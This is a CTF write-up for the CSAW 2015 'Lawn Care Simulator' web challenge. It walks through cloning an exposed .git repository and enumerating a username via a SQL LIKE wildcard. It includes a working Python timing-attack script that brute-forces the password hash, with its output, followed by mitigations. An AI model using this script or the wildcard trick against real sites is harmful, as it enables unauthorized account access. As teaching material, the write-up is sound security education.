 ## Lawn Care Simulator
Writeup by @auscompgeek.

### tl;dr
* `.git` repo was exposed
* get username through `sign_up.php` and wildcards
* use side-channel attacks to log in by brute-forcing the passhash

### Introduction
On visiting the challenge website, we are greeted with a simple game.
Let's take a peek at some of the source:

```javascript
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

Here, we see that passwords are *sent* to the server as MD5 hashes, and
that there's a `git` repo at `.git`.

### Exploitation
Let's clone the git repo:

```
$ git clone http://54.175.3.248:8089/.git/ lawn-care-sim
Cloning into 'lawn-care-sim'...
Done.
```

... that was simpler than I expected.

```
$ cd lawn-care-sim
$ ls
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Let's take a look at these PHP files.

> `premium.php`:
```php
# [snip]
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
# [snip]
```

Guess we know where to find the flag now.

> `validate_pass.php`:
```php
function validate($user, $pass) {
    # [snip]
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];
    if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
```

So `validate()` takes a username and passhash, fetches the hash from the
database, then compares each digit in the hash.

Hang on a second.  There's a call to `usleep()` in the loop.
This is trivially vulnerable to a timing attack.

An important thing to note is that the length of the hashes are checked first.
When performing our attack, we'll have to pad our hash.

> `sign_up.php`:
```php
# [snip]
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
# [snip]
```

Wait a second, `username LIKE '$user'`?  Interesting.

For those that haven't learnt SQL yet, the `LIKE` operator takes two strings,
and takes the RHS as a wildcard expression to match against the LHS.
In SQL, the equivalent wildcard for `*` is `%`.

So, this page takes a *wildcard expression* for the username, and returns a
username in the database.  Great!  Let's grab our username by passing a
username of `%`.

> ## Username: \~~FLAG~~ is not available

Now that we have a username, let's perform our timing attack.
In this case, the timing is the time it takes to respond to our HTTP request,
so attacks may be unreliable.  I try to mitigate this in various ways.

```python
#!/usr/bin/env python3
import requests
import time

EPS = 0.01

username = '~~FLAG~~'
alphabet = '0123456789abcdef'
known = ''

def try_pw(p):
    data = {'username': username, 'password': p}
    r = requests.post('http://54.175.3.248:8089/premium.php', data=data)
    return r.elapsed.total_seconds(), r.text

def fill_pw(p):
    return p.ljust(32, '0')

last_t = max_t = 0
max_l = None

while len(known) != 32:
    for l in alphabet:
        t, result = try_pw(fill_pw(known + l))

        # if we've already found it, just print it
        if 'Not Authorized' not in result:
            print('FOUND IT')
            print(known + l)
            print(result)
            exit()

        print(known + l, t)

        # attempt to detect network latency, etc. really badly
        # this will break if the hash has consecutive zeros in the middle
        if t - last_t < EPS:
            print('fuck')
            known = known[:-1]
            max_t = last_t = max_t / 4
            break

        if max_t < t:
            max_t, max_l = t, l

    else:
        print('adding', max_l, max_t)
        known += max_l
        last_t = max_t

# assuming the flag doesn't have "Not Authorized" in it, we shouldn't get here
print('uhm. something went wrong.')
```

I had to manually intervene a couple of times whilst running my attack,
modifying `EPS` and `known` as appropriate.

... about half an hour later:
```html
667e217660 3.2174746990203857
667e217661 3.2007336616516113
667e217662 3.207519769668579
667e217663 3.2157950401306152
667e217664 3.1841838359832764
667e217665 3.2086429595947266
FOUND IT
667e217666
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```

Our flag is `flag{gr0wth__h4ck!ng!1!1!}`.
(Note: CSAW CTF's flags are case-insensitive.)

An interesting thing to note is that this hash has a lot of trailing zeros.
It turns out that the challenge was modified to only check the first 10 digits.

### Easter eggs
```
$ cat ___HINT___
Before planting grass, add compost or other soil amendment to the soil to improve its ability to hold water.
$ git log --oneline
aa3025b I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

### Mitigations
* If you don't want people cloning your git repo, don't make it publicly
  accessible.  Seriously, how many times have we mentioned this already?
* Don't use the SQL `LIKE` operator unless you really mean it.
* `sleep`ing is not a valid way of preventing brute-force attacks.
  :stuck_out_tongue_winking_eye:

### Notes
It turns out PHP returns `NULL` for a lot of things, and `0 == NULL` in PHP.
Specifically, indexing `NULL` gives you `NULL` (what!?), and `strlen(NULL)`
is also `NULL`.  [s0lst1ce][] abused this and got the flag by sending an empty
username and password.

[s0lst1ce]: //s0lst1ce.github.io/web%20hacking/csaw%20quals%202015/writeups/2015/09/20/csaw-quals-writeup-lawncare-sim/
